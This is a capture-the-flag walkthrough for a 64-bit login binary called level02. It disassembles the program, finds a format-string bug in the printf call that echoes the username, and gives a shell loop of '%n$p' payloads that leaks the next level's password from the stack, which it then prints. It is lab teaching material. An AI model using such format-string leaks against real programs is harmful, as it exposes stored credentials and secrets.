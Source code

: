 # level02 walkthrough

Given 64-bit elf binary, on execution it asks for a username and password:

    $ ./level02 
    ===== [ Secure Access System v1.0 ] =====
    /***************************************\
    | You must login to access this system. |
    \**************************************/
    --[ Username: level03
    --[ Password: loremipsum
    *****************************************
    level03 does not have access!

In the disassembly we can see three variables being created on stack and zeroed and an fopen function call:

    push   rbp
    mov    rbp,rsp
    sub    rsp,0x120
    mov    DWORD PTR [rbp-0x114],edi
    mov    QWORD PTR [rbp-0x120],rsi
    lea    rdx,[rbp-0x70]
    mov    eax,0x0
    mov    ecx,0xc
    mov    rdi,rdx
    rep stos QWORD PTR es:[rdi],rax
    mov    rdx,rdi
    mov    DWORD PTR [rdx],eax
    add    rdx,0x4
    lea    rdx,[rbp-0xa0]
    mov    eax,0x0
    mov    ecx,0x5
    mov    rdi,rdx
    rep stos QWORD PTR es:[rdi],rax
    mov    rdx,rdi
    mov    BYTE PTR [rdx],al
    add    rdx,0x1
    lea    rdx,[rbp-0x110]
    mov    eax,0x0
    mov    ecx,0xc
    mov    rdi,rdx
    rep stos QWORD PTR es:[rdi],rax
    mov    rdx,rdi
    mov    DWORD PTR [rdx],eax
    add    rdx,0x4
    mov    QWORD PTR [rbp-0x8],0x0
    mov    DWORD PTR [rbp-0xc],0x0
    mov    edx,0x400bb0
    mov    eax,0x400bb2
    mov    rsi,rdx
    mov    rdi,rax
    call   0x400700 <fopen@plt>
    mov    QWORD PTR [rbp-0x8],rax
    cmp    QWORD PTR [rbp-0x8],0x0
    jne    0x4008e6 <main+210>


Fopen loads the level03 pass file as a file stream with read permissions:

    (gdb) printf "%s\n", 0x400bb2
    /home/users/level03/.pass/home/users/level03/.pass
    (gdb) printf "%s\n", 0x400bb0
    r   

After checking that the password file was loaded successfully program reads the password to the variable on stack at rbp-0xa0 that was allocated earlier:

    lea    rax,[rbp-0xa0]
    mov    rdx,QWORD PTR [rbp-0x8]
    mov    rcx,rdx
    mov    edx,0x29
    mov    esi,0x1
    mov    rdi,rax
    call   0x400690 <fread@plt>

Then it checks if the password was read correctly, prints the auth prompt and reads username and password from stdin:

    mov    rax,QWORD PTR [rip+0x20087e]        # 0x601248 <stdin@@GLIBC_2.2.5>
    mov    rdx,rax
    lea    rax,[rbp-0x70]
    mov    esi,0x64
    mov    rdi,rax
    call   0x4006f0 <fgets@plt>
    lea    rax,[rbp-0x70]
    mov    esi,0x400bf5
    mov    rdi,rax
    call   0x4006d0 <strcspn@plt>
    mov    BYTE PTR [rbp+rax*1-0x70],0x0
    mov    eax,0x400ce8
    mov    rdi,rax
    mov    eax,0x0
    call   0x4006c0 <printf@plt>
    mov    rax,QWORD PTR [rip+0x20083b]        # 0x601248 <stdin@@GLIBC_2.2.5>
    mov    rdx,rax
    lea    rax,[rbp-0x110]
    mov    esi,0x64
    mov    rdi,rax
    call   0x4006f0 <fgets@plt>
    lea    rax,[rbp-0x110]
    mov    esi,0x400bf5
    mov    rdi,rax
    call   0x4006d0 <strcspn@plt>
    mov    BYTE PTR [rbp+rax*1-0x110],0x0
    mov    edi,0x400cf8
    call   0x400680 <puts@plt>
    lea    rcx,[rbp-0x110]
    lea    rax,[rbp-0xa0]
    mov    edx,0x29
    mov    rsi,rcx
    mov    rdi,rax
    call   0x400670 <strncmp@plt>
    test   eax,eax
    jne    0x400a96 <main+642>


For each prompt read program calls strcspn function to find an offset of the '\n' character and zero it in the provided string.
In the end of the disassembly above we can see that the password that was saved before in the buffer is being compared to the password provided via prompt using strncmp.
There is nothing to exploit so far and we can't provide the correct password since we don't know it yet, lets check what happens in case it doesn't match:

    lea    rax,[rbp-0x70]
    mov    rdi,rax
    mov    eax,0x0
    call   0x4006c0 <printf@plt>
    mov    edi,0x400d3a
    call   0x400680 <puts@plt>
    mov    edi,0x1
    call   0x400710 <exit@plt>

In this case it calls printf with the username from prompt as a format string argument which is a common security vulnerability since we can now provide any kind of format string to the printf call and take advantage of va_args to print anything from stack.
The size of the buffer that was allocated in the beginning is 0x120, the offset of the password in this buffer is 0x120-0xa0=0x80 (128 bytes).
Since the binary is 64 bit the first six arguments are passed via registers rdi, rsi, rdx, rcx, r8, and r9 due to the ABI agreement. The format string is provided via rdi register. If we put `%n$p` as a format string where n is the number of argument then we can print 8 byte chunks from buffer since the rest arguments to printf are provided via stack according to the ABI. To calculate the value of the argument where the password is stored we need to skip 5 registers and buffer offset aligned by 8 bytes 5+128/8=21.
The size of the password from the next level is 40 bytes so we need to run the program 5 times:

    $ for((i=1; i<=5; i++)); do echo "[$i] %$[i+21]\$p" | ./level02 | grep does; done
    [1] 0x756e505234376848 does not have access!
    [2] 0x45414a3561733951 does not have access!
    [3] 0x377a7143574e6758 does not have access!
    [4] 0x354a35686e475873 does not have access!
    [5] 0x48336750664b394d does not have access!

And after converting memory bytes from hex to string using [to_str.py](Resources/to_str.py) we will get the level03 flag:

    python3 ./Resources/to_str.py
    Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H

Profit!
